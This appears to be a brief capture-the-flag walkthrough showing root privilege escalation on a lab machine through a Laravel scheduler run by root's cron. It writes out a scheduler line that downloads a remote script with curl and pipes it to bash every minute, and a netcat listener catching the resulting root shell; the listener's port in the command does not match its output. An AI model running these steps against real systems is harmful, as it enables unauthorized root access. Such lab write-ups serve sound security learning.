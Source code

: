 # Discovery
```bash
$ cat /etc/crontab
...
* * * * * root php /var/www/laravel/artisan schedule:run
...
```

# Laravel task scheduling
laravel schdules tasks in /var/www/laravel/app/Console/Kernel.php
add the line
```php
$schedule->exec('curl -s 10.10.14.28/shell.sh | bash')->everyMinute()
```
to the file
and
```bash
$ nc -lvnp 6969
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:41796.
bash: cannot set terminal process group (1379): Inappropriate ioctl for device
bash: no job control in this shell
root@cronos:/var/www/admin$ 
```